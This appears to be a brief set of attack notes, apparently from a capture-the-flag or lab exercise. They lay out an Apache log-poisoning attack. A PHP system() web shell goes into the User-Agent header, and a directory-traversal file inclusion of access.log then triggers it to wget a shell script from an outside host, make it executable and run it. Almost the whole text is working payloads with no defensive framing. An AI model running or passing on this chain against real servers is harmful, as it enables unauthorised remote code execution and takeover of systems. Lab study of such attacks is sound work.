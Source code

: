 ## Add c to apache2 log file through burp suite
	?view=/var/www/html/development_testing/../../../../../var/log/apache2/access.log
		User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Firefox/115.0

## Upload shell and execute it
	?view=/var/www/html/website/../../../../../var/log/apache2/access.log&c=wget http://10.8.79.239:8000/shell.sh -O /tmp/shell.sh

	?view=/var/www/html/website/../../../../../var/log/apache2/access.log&c=chmod +x /tmp/shell.sh

	?view=/var/www/html/website/../../../../../var/log/apache2/access.log&c=bash /tmp/shell.sh